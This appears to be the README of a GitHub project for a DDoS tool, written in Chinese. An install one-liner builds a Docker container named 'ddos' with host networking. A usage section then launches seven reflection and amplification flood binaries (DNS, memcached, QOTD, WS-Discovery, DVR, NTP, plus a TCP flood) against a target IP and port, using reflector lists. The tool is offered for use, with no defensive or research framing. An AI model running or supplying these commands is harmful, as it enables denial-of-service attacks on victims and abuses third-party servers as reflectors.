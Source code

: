 ### 安装 （docker）
apt update -y && apt install docker.io -y && git clone https://github.com/qq1521575701/dd.git && cd dd && docker build -t ddos . && docker run -itd --name ddos --network host ddos:latest && docker exec -it ddos /bin/bash

### 使用
docker exec -it ddos ./dns ip port dns.txt 1 -1 60 &

docker exec -it ddos ./meme ip port meme.txt 1 -1 60 &

docker exec -it ddos ./qotd ip port qotd.txt 1 -1 60 &

docker exec -it ddos ./wsd ip port wsd.txt 1 -1 60 &

docker exec -it ddos ./dvr ip port dvr.txt 1 -1 60 &

docker exec -it ddos ./ntp ip port ntp.txt 1 -1 60 &

docker exec -it ddos ./tcp ip port 1 -1 60 &
